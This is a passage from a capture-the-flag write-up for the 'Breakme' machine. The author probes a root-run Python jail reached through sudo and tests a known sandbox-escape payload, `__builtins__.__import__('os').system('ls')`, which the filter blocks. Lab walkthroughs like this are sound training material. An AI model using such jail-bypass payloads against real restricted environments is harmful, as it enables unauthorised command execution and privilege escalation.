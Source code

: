 Running it informs us that we are inside a Python jail and asks for our input.

```console
youcef@Breakme:~$ sudo /usr/bin/python3 /root/jail.py
  Welcome to Python jail
  Will you stay locked forever
  Or will you BreakMe
>>
```

### Escaping the jail

Testing the input, we realize that if we enter invalid Python code, we receive the `Wrong Input` message.

```console
youcef@Breakme:~$ sudo /usr/bin/python3 /root/jail.py
  Welcome to Python jail
  Will you stay locked forever
  Or will you BreakMe
>> test
Wrong Input
```

If we enter valid Python code, we see it being executed. This suggests that our input is likely being passed to the `exec` function.

```console
>> print('test')
test
```

However, if we try to import a module to run commands, we see the message `Illegal Input` and the program exits. This indicates that there must be some filtering in place.

```console
>> import os
Illegal Input
```

Looking for common Python jail bypass payloads, we find the following payload [here](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#builtins). It imports the `os` module and calls the `system` function from it:

- `__builtins__.__import__("os").system("ls")`

But, if we try it in our case, we see that it fails.

```console
>> __builtins__.__import__("os").system("ls")
Illegal Input
```

So let's start small. First, we'll try to access the `import` function using `__builtins__.__import__`. However, as we can see, it is blocked.

```console
>> __builtins__.__import__
Illegal Input
```
